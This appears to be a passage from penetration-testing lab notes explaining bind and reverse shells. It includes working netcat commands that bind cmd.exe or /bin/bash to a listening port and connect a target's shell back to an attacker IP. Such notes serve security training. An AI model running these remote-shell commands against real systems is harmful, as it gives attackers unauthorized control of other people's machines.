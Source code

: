 All Text or Executables can be transferred in this method.

### Bind Shells

> 📌 [Bind and Reverse shells](https://www.hackingtutorials.org/networking/hacking-netcat-part-2-bind-reverse-shells/)

🗒️ **Bind Shell** - a remote shell where _the attacker connects to the listener running on the target system_ and execute commands on the target system.

* _Bind shells issues_:
  * Must have access to the target system
  * Inbound traffic can be blocked by a firewall, it is very suspect
* A `netcat` listener must be configured on the target system to execute:
* `cmd.exe` - Windows
* `/bin/bash` - Linux

> 🔬 Same lab as above (IPs might change)

* Once uploaded the `nc.exe` on the target system, proceed with the bind shell

```bash
# Target Win machine - Bind shell listener with executable cmd.exe
nc.exe -nvlp 1234 -e cmd.exe

# Attacker Linux machine
nc -nv 10.2.22.140 1234
```

```bash
# Target Linux machine - Bind shell listener with /bin/bash
# -c can be used only for *nix systems. else -e can alos be used 
nc -nvlp 1234 -c /bin/bash

# Attacker Win machine
nc.exe -nv 10.10.24.2 1234
```

### Reverse Shells

🗒️ **Reverse Shell** - a remote shell where _the target connects to a listener running on the attacker's system_ (**`e.g.`** Metasploit Meterpreter).

* _Reverse shells advantages_:
  * The connection can be initialized without `netcat` too
  * Outgoing traffic may not be blocked by firewalls
* _Reverse shells issues_:
  * used exploit have to know the attacker's IP
  * the attacker's IP can be logged as malicious or present in the exploit file

```bash
# Attacker Linux machine
nc -nvlp 1234

# Target Win machine
nc.exe -nv 10.10.18.3 1234 -e cmd.exe
```

